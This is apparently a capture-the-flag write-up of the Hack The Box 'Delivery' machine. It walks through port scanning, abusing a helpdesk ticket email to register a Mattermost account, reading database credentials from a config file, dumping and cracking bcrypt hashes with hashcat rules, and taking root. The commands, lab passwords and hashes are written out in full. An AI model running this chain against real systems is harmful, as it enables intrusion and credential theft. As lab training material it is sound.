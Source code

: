 Target: 10.10.10.222

## Enumeration

nmap
```
$ nmap -sC -sV -p- 10.10.10.222

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 11:20 PDT
Nmap scan report for 10.10.10.222
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.222
![](delivery1.png)

clicking contact us
![](delivery2.png)

adding subdomain to /etc/hosts
```
10.10.10.222    delivery.htb helpdesk.delivery.htb 
```

### Findings:Looking for attack vectors

[Hacking through helpdesk blog post](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c)


## Foothold:

visiting the subdomain
![](delivery3.png)

creating ticket
![](delivery4.png)

```
Email Address: sssadmin@local.host
Ticket Number: 2963704
```

creating an account in mattermost
```
Email Address: 2963704@delivery.htb
Username : sssadmin
Password: @Password123
```
![](delivery5.png)

checking inbox
![](delivery6.png)

activate the account using the link
![](delivery7.png)

Loot:

maildeliverer:Youve_G0t_Mail!


## Lateral Movement:

ssh to the machine
```
$ ssh maildeliverer@10.10.10.222                                        

maildeliverer@Delivery:~$ id

uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```
maildeliverer@Delivery:~$ cat user.txt

<redacted>
```


## Priv Escalations:

locating mattermost config file at /opt/mattermost/config/config.json

config.json
```json              
<snip>
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
<snip>
```

DB creds:

mmuser:Crack_The_MM_Admin_PW

connecting to the database
```
maildeliverer@Delivery:~$ mysql -u mmuser -D mattermost -p 
```

dump user hashes
```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<snip>
| Users                  |
+------------------------+
46 rows in set (0.001 sec)


MariaDB [mattermost]> SELECT Username, Password  FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| loban                            | $2a$10$v.6oGzpfyknY1fCsSWlur.crDcUqSn5laG3xqwGx6/9R1n//arJ2W |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| sssadmin                         | $2a$10$7WIw9xqef9kaanaLBRMKiOLWaclP5SAwIVn9nn10M5Wc/K0zBJcC2 |

+----------------------------------+--------------------------------------------------------------+
4 rows in set (0.001 sec)
```

creating hash.txt
```
$ echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > hash.txt
```

identifying the hash
```
$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'

Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

base on root conversation hashcat rules is used with variations of PleaseSubscribe!
```
root: PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

creating wordlist
```
echo 'PleaseSubscribe!' > passwords.txt
```

searching for best hashcat rules 

[OneRuletoRuleThemAll blog post](https://notsosecure.com/one-rule-to-rule-them-all/)

[OneRuleToRuleThemAll Github](https://github.com/NotSoSecure/password_cracking_rules)


downloading the rule
```
$ wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```

hashcat
```
$ hashcat -m 3200 -o crack.txt hash.txt passwords.txt -r OneRuleToRuleThemAll.rule

<snip>
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 20 16:00:12 2021 (22 mins, 28 secs)
Time.Estimated...: Tue Apr 20 16:22:40 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (1.44ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12938/51995 (24.88%)
Rejected.........: 0/12938 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:12937-12938 Iteration:1008-1024
<snip>
```

Loot:

root:PleaseSubscribe!21

su to root
```
maildeliverer@Delivery:~$ su - root
 
root@Delivery:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Delivery:~# cat root.txt

<redacted>
```
